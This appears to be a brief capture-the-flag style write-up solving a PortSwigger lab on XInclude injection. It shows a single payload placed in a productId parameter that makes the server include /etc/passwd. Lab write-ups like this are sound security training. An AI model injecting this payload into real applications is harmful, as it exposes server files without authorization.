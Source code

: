 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/eec3fc0b-5939-496a-b2a7-9ec05fd69c59)

### Solution

First we use the check stock feature 

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/90291740-9c14-46ac-ba71-5721cd79b59a)

now we set the value of the productId parameter to

`<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/a0ce5c7c-02b8-481f-8a87-a5b5f47e87bd)

lab solved succesfully

![Uploading image.png…]()
